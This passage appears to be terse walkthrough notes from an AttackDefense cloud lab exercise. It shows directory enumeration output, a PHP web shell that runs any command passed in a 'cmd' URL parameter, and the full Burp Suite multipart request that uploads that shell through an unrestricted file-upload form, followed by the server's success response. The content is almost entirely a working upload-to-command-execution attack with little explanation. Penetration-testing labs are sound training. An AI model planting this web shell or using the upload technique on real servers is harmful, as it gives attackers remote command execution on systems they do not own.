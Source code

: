 ```
/phpinfo.php          (Status: 200) [Size: 76509]
/server-status        (Status: 403) [Size: 345]
/static               (Status: 301) [Size: 418] [--> http://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/static/]
/uploads              (Status: 301) [Size: 419] [--> http://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/]📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`curl -X GET https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/test.php`:
```
test 
```

`vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
Content-Type: multipart/form-data; boundary=---------------------------220412119661351292736528440
Content-Length: 250
Origin: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------220412119661351292736528440
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"
Content-Type: application/x-php

<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>📌

-----------------------------220412119661351292736528440--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:36:39 GMT
```